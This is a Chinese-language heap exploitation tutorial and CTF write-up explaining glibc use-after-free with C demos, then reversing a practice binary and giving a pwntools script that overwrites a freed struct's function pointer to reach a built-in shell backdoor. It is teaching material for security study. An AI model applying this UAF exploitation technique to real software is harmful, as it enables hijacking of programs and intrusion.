




# 堆的简单介绍

首先堆不是指《数据结构》里的堆，而是指程序运行中的一块可以动态分配的内存。提起这点是因为PWN中的栈和《数据结构》里的栈基本一样，都是FILO结构，但是PWN中的堆却和《数据结构》里的堆完全不同。新手也许在初认识堆的时候会不小心搜索到数据结构的内容而导致一些认识错误。

其次堆和栈的结构、利用方式具有很大差别，可以当成一个新的知识点学习而不必拥有栈基础（也正是task4出堆题的原因，无需任何复杂的经验、前置，当场学习掌握操作就能当场做出来，符合了我一贯出基础操作题的思路），要类比的话就像大一会同时学习高等数学和线性代数，堆和栈也可以不分先后的同时学习。

当然说是这么说，大部分教程还是会把堆放到栈后掌握，因为其结构确实更复杂，没有栈一样统一的结构，我尽量用简单的话来说清楚：

堆的管理是使用堆分配器的，在linux的glibc中这个分配器是叫**ptmalloc**，我们C语言使用堆相关功能，就会调用`malloc`与`free`两个函数，调用的时候就由分配器去找当前还有哪块内存大小合适且空闲，或者哪块内存用完了可以回收。找一块大小合适的空闲内存、释放一块内存，都要涉及比较复杂的内存管理工作，也由此堆的管理必须有高效的手段即堆分配器，同时从描述也可知堆的大小是根据实际需求来的，实际需要多大就用malloc分配多大，不会像栈一样比较固定地直接分配一片内存。正因上述种种原因，使得堆的结构远比栈复杂。

当然目前不必知道细节，只需要知道：

1.堆的管理由堆分配器管理，glibc下是ptmalloc（准确来说现在的linux标准是ptmalloc2）。
2.堆的分配大小自由而不固定，不同的大小衍生出了不同的结构。
3.因为堆的结构不固定，所以漏洞利用方式也不统一，没有像栈溢出那样溢出操控了返回地址，接下来就能一路ROP的标准操作，利用整体比较灵活。

# UAF（Use After Free）

UAF就是释放后使用，C语言中内存被释放后，照常理来说，指向这片内存的指针也应该置空（即NULL），对应C语言写法如下：

```c
free(ptr);
ptr = NULL;
```

如果只是free了，但是后面接着使用ptr这个指针继续去访问甚至写这块内存，就会导致一定问题。打个比方就像宾馆退房了但是不归还钥匙，那么之后的住户虽然可以正常住，但是不归还钥匙的人随时都可以去打扰正常住户，轻一点只是开门偷窥（释放后读），重一点就是去对别的住户动手脚（释放后写）。接下来就以UAF的案例讲解会导致什么问题吧：

## 案例一：释放后读

如下，p指针指向malloc分配的一块内存，并用`*p`给p指针指向的内存赋值为42，第一次打印完后释放掉指针p指向的内存，但是p不置空，

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int *p = malloc(sizeof *p);
    if (!p) return 1;
    *p = 42;
    printf("before free: *p = %d\n", *p);
    free(p);
    printf("after free : *p = %d\n", *p);
    return 0;
}
```

接着我们再去读取p指针指向的内存数据，那么可以猜猜，第二次会打印什么，会是42吗，答案是随机：



因为释放后的内存，就不再被p这个指针独占了，任何其他牛鬼蛇神都可以去读写这片自由（free）的内存。我们释放后再去读，就很有可能读到很多意外的值。
## 案例二：释放后被复用（重要）

这里p和q指向同一块内存，并用p给这块内存写了个100，然后释放掉p并且p置空，但是q保持不变。

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int *p = malloc(sizeof *p);
    int *q = p;

    *p = 100;
    printf("p = %p, q = %p, *q = %d\n", (void*)p, (void*)q, *q);
    free(p);
    p = NULL;

    int *r = malloc(sizeof *r); 
    *r = 999;

    printf("r = %p, *r = %d\n", (void*)r, *r);
    printf("q = %p, *q = %d\n", (void*)q, *q);

    *q = 123;   
    printf("after *q = 123, *r = %d\n", *r);
    
    free(r);
    return 0;
}
```

随后我们立刻分配一块内存，并用r指针指向新分配的内容，然后我们分别打印r与q的值，甚至去修改q的值，就会惊奇的发现：



r与q居然神奇地指向了同一个地址，修改q指向的值也会同时改变r所指向的值。这就很有趣了，很明显属于“利用没归还的钥匙对其它住户动手动脚”的情况，也是实战中最值得利用的一种情况，通过一个没有置空的指针，我们能往一个地址写任意值，如果这个地址也被其它指针引用，那就等价于我们能改写其它指针。

这里我简单解释一下原理，实际上堆的分配有个小的习惯，那就是不总是分配新的，而是尽量复用已经分配过的内存，特别是申请的两块内存大小都一致的情况下，如果连着申请、连着释放，那就很有可能一直都申请到同一块内存。至于为什么要这么复用，那就涉及到一些分配的效率问题，可以在操作系统课程上了解。

## 案例三：双重释放

又叫double free，这个也可以单独视为一类漏洞了。如下就是字面意义的连着释放两次。

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int *p = malloc(sizeof *p);
    int *q = p;

    free(p);

    free(q); 
    return 0;
}
```

这个程序甚至无法正常运行，因为glibc会检测这样的双重释放行为

```zsh
$ ./example3
free(): double free detected in tcache 2
zsh: abort      ./example3
```

对于老的glibc，有一些方法可以绕过这个检测，使得同一块内存真的被释放两次，当然这个更多的属于double free的利用而非UAF了，需要讲明白double free就会不可避免的讲更多堆的结构知识，这里不展开，可以自行了解这样的危害。

# Task4讲解

堆的基本结构有很多，各种chunk，各种bin，还有后来的tcache，所幸在task4中我们并不需要学习这些结构也能掌握UAF。当然我出题还是给了glibc 2.23的环境，因为这个环境下，这题和堆相关的结构就是fastbin了，是一个简单的链表结构，我原本希望大家能顺便了解一下。不过大多人是没用patchelf，直接打了最新的glibc也就是tcache，在glibc中出现tcache结构后，原本的一些结构就不那么常用了，而是由tcache管。听不懂我叽里咕噜说什么也没关系，这题patch不patch，是fastbin还是tcache都没关系，都可以做出来。

## patchelf的使用

不过这里还是以fastbin结构的老版本glibc来演示一下patchelf怎么用：

题目提供了两个.so文件，一个是链接器，一个是链接库，我们默认运行程序会使用系统自带的最新的链接器与链接库，但是可以通过patchelf修改

```bash
# 修改链接库
$ patchelf --set-rpath ./path/to/libc.so ./program
# 修改链接器
$ patchelf --set-interpreter ./path/to/ld.so ./program
```

可以用ldd命令来查看当前程序使用的链接器和链接库，我们执行上述命令就可以看到下面的场景，task4-heap的libc和ld都被修改了。



## 程序逆向分析

这题其实就是一个堆的模板题，IDA打开可以看到有几个功能，制作贺卡add\_card，删除贺卡delete\_card，查看贺卡view\_card，

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int choice; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(stdin, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);
  while ( 1 )
  {
    do
      print_menu();
    while ( !read_int(&byte_40220F, &choice) );
    if ( choice == 4 )
      break;
    if ( choice > 4 )
      goto LABEL_13;
    switch ( choice )
    {
      case 3:
        view_card();
        break;
      case 1:
        add_card();
        break;
      case 2:
        delete_card();
        break;
      default:
LABEL_13:
        puts(&byte_402225);
        break;
    }
  }
  puts(&byte_40221B);
  return 0;
}
```

### add_card

先看看add\_card的功能，这个函数会让我们设定输入内容的长度（1-256字节），然后输入内容，然后就会用malloc先给结构体分配空间（这里分配的空间是结构体的固定大小），

这个Card结构体的结构可以不需要自己分析的，IDA会分析出来，可以在`Local Types`窗口看到，结构体的两个元素都是指针类型，一个指向函数，一个指向字符串。



给结构体分配了空间后，再给card这个结构体的内容content部分也分配空间（这里是我们输入的大小）并赋值，同时把card的show指针指向show\_card函数。

```c
void __cdecl add_card()
{
  int size; // [rsp+4h] [rbp-1Ch] BYREF
  char *content; // [rsp+8h] [rbp-18h]
  Card *card; // [rsp+10h] [rbp-10h]
  int index; // [rsp+1Ch] [rbp-4h]

  index = choose_slot();
  if ( index >= 0 )
  {
    if ( read_int(&prompt, &size) && size > 0 && size <= 256 )
    {
      card = (Card *)malloc(0x10u); //先给card结构体分配空间
      if ( card )
      {
        card->show = (void (*)(Card *))show_card;//给card的show指针指向函数show_card
        content = (char *)malloc(size + 1LL);//再给card结构体存放content的部分也分配空间
        if ( content )
        {
          card->content = content;
          printf(&byte_402080, (unsigned int)size);
          fflush(_bss_start);
          if ( !read_exact(content, size) )
          {
            free(content);
            free(card);
            puts(&byte_4020B1);
            exit(1);
          }
          content[size] = 0;
          discard_line();
          cards[index] = card;
          ++card_count;
          printf(&byte_4020C8, (unsigned int)index);
        }
        else
        {
          free(card);
          puts(&byte_402070);
        }
      }
      else
      {
        puts(&byte_402070);
      }
    }
    else
    {
      puts(&byte_40205A);
    }
  }
  else
  {
    puts(&s);
  }
}
```

### delete_card

delete\_card就是漏洞函数，如下，可以看到它在删除指定贺卡的时候，对结构体以及其内容部分的指针都进行了free，但是并没有将结构体指针`cards[index]`或是内容指针`content`置`NULL`，导致我们在删除贺卡后仍然可以通过`cards[index]`的方式访问一个已经被释放的结构体。

```c
void __cdecl delete_card()
{
  int index; // [rsp+Ch] [rbp-14h] BYREF
  char *content; // [rsp+10h] [rbp-10h]
  Card *victim; // [rsp+18h] [rbp-8h]

  if ( read_valid_index(&byte_402108, &index) )
  {
    if ( cards[index] )
    {
      victim = cards[index];
      content = victim->content;
      free(victim); //先free掉了结构体
      free(content);//再free掉content
      puts(&byte_40214F);
    }
    else
    {
      puts(&byte_402130);
    }
  }
}
```

### view_card

这个是查看贺卡的函数，虽然看着平平无奇，但是注意它调用的方式是用结构体的函数指针去调用函数的，即`cards[index]->show(cards[index])`，这是一个小伏笔。

```c
void __cdecl view_card()
{
  int index; // [rsp+Ch] [rbp-4h] BYREF

  if ( read_valid_index(&byte_402168, &index) )
  {
    if ( cards[index] )
      cards[index]->show(cards[index]);
    else
      puts(&byte_402130);
  }
}
```

除了上述内容外，程序还内置了后门函数shell，可以直接执行`system("/bin/sh")`。

## 简单利用UAF

利用的思路很简单，我们需要构造一个像案例二一样的复用型UAF，这样我们就可以用一个没有置空的指针，去修改另一个分配的贺卡结构体的内容，把其函数指针指向后门函数shell，调用view\_card的时候会以函数指针的方式去调用函数，即可获得shell。

```c
#!/usr/bin/env python3
from pwn import ELF, context, p64, process


context.binary = elf = ELF("./task4-heap", checksec=False)
context.log_level = "info"

PROMPT = "请选择> ".encode()
SIZE_PROMPT = "请输入内容长度（1-256 字节）: ".encode()
CONTENT_PROMPT = "随后输入换行: ".encode()
DELETE_PROMPT = "请输入要删除的贺卡编号: ".encode()
VIEW_PROMPT = "请输入要查看的贺卡编号: ".encode()


def add_card(io, size, content):
    io.sendlineafter(PROMPT, b"1")
    io.sendlineafter(SIZE_PROMPT, str(size).encode())
    io.sendlineafter(CONTENT_PROMPT, content)


def delete_card(io, index):
    io.sendlineafter(PROMPT, b"2")
    io.sendlineafter(DELETE_PROMPT, str(index).encode())


def view_card(io, index):
    io.sendlineafter(PROMPT, b"3")
    io.sendlineafter(VIEW_PROMPT, str(index).encode())


def main():
    io = process("./task4-heap")
    add_card(io, 16, b"A" * 16)
    delete_card(io, 0)
    fake_card = p64(elf.symbols["shell"]) + p64(0)
    add_card(io, 16, fake_card)
    view_card(io, 0)
    io.interactive();

if __name__ == "__main__":
    main()
```

这里尽量不讲堆具体结构的解释一下exp，首先先调用了add\_card去添加一个内容大小为16字节的贺卡，内容为16个A，注意这里的内容content大小是和Card结构体大小保持一致的，都是16字节。只有控制了大小，之后才能利用分配的复用。

然后调用delete\_card去释放掉刚刚的贺卡，刚刚创建贺卡时一共用了两次malloc，一次是创建Card结构体，一次是给content空间，同时根据逆向的delete\_card函数的写法，会先free掉Card结构体，然后再free掉content。

在fastbin和tcache结构中（也是本题默认情况下会出现的两种结构，没改glibc就是tcache，改了就是fastbin），对释放掉的内存的管理是`单链表`+`LIFO`的，也就是后释放的内存之后会被先拿去分配。比如我们上面后free掉的content，下次再被add\_card去取用分配时，就会被先去用来创建Card结构体，而先free掉的结构体，则会被用来创建下一个Card结构体的content。

这样，我们就做到了`cards[1]`的`content`去控制`cards[0]`的结构体。流程大概是这样：

```c
#先创建第一张贺卡，进行两次分配，一次是给结构体分配空间，一次是给结构体里的内容指针分配空间
malloc(cards[0]) -> malloc(cards[0].content)
free(cards[0]) -> free(cards[0].content)
#此时堆的空闲链条结构：
cards[0] -> cards[0].content
#再分配时，会先取用cards[0].content这一片空闲内存，然后再取之前cards[0]的空闲内存
#再调用add制作新贺卡会执行下面的malloc
malloc(cards[1]) -> malloc(cards[1].content)
#因为空闲内存取用遵循LIFO，那么实际上cards[1]的分配会复用cards[0].content的内存，cards[1].content则复用的是cards[0]的内存
#这样，我们可以通过操控往cards[1].content写入的内容，控制之前cards[0]的结构体的两个指针--函数指针show和content指针。
```

我们往`cards[1]`的content写入payload，`p64(elf.symbols["shell"]) + p64(0)`，实际上就是控制了`cards[0]`结构体的两个指针show和content，这里show指针就被我们修改为了后门函数shell的地址。

因为`cards[0]`没有被置空，所以我们依然可以通过`view_card`去查看`cards[0]`的信息，而`view_card`实际执行的`cards[index]->show(cards[index]);`里的show已经被我们替换成shell了，执行便会获得shell。可能听着挺头晕的，一下又是结构体一下又是content的，不理解就回去看看案例二好了，然后把C语言的指针和结构体也搞明白，理解了这个内存复用顺序后多看几遍就明白了。
